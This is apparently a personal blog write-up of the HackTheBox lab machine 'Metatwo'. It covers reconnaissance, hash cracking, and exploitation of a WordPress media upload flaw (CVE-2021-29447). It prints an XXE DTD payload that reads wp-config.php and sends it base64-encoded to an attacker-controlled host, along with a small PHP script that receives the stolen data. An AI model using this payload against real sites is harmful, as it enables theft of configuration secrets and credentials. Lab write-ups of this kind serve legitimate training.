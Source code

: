 ```yaml
---
layout: post
title: "Metatwo"
date: 2024-12-28
author: cotes
categories: [Writeup, HackTheBox]
tags: [HTB, Writeup, Security]
pin: true
math: true
mermaid: true
image:
  path: /assets/img/commons/hackthebox.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```


`sudo nmap -sC -sV -p- -T4 -oN metatwo 10.10.11.186
`
![[Pasted image 20240529153027.png]]


we got ftp, http and ssh 

I tried ftp anonymous , but didn't lead us anywhere 

let's go explore the port 80 

==wordpress== , I tried admin:admin but didn't help 
![[Pasted image 20240529153402.png]]

if we look around and we tried to read the source page of the wordpress files we will found the following 
![[Pasted image 20240529153826.png]]

if we google this plugin
![[Pasted image 20240529153948.png]]

![[Pasted image 20240529154459.png]]

![[Pasted image 20240529154537.png]]let's crack them 
`hashcat -a 0 -m 400 hashe --user --show

![[Pasted image 20240529160523.png]]
let's login as a manager 

we got access as a manger 

let's enumerate using ==wpscan ==
`wpscan  --url http://metapress.htb --enumerate ap --api-token CvPFdrygDgoTsTqclRanY8Xdf0r5iyLSNIP > wpscan_enumerate_ap
`
![[Pasted image 20240529160827.png]]

I will use this https://github.com/0xRar/CVE-2021-29447-PoC but I will modifcate I liitle 

in the evil.dtd 
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.4:80/index.php?content=%file;'>" >


```

this will get us file on ==base64==  we can use php script to decode it on index.php
```
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

```


now let's upload the ==payload.wav==  

and run our server
`php -S 0.0.0.0:80`
![[Pasted image 20240529161315.png]]

http://metapress.htb/wp-admin/upload.php
![[Pasted image 20240529161402.png]]

on our php server 
![[Pasted image 20240529161519.png]]


we got ftp creds , after login we find a file ==send_email.php==
and we got ssh creds on it
![[Pasted image 20240529161638.png]]

![[Pasted image 20240529161705.png]]

interesting directory![[Pasted image 20240529161736.png]]

![[Pasted image 20240529161815.png]]

this utility used to store password and it encrypts them using the ==.keys== 
![[Pasted image 20240529161911.png]]

let's move the private key to out machine and crack it 

`gpg2john gpg > hashes `
![[Pasted image 20240529162050.png]]
`john wordlist=/usr/share/wordlists/rockyou.txt hashes`
![[Pasted image 20240529162311.png]]
`passpie export root` 
![[Pasted image 20240529162504.png]]
![[Pasted image 20240529162614.png]]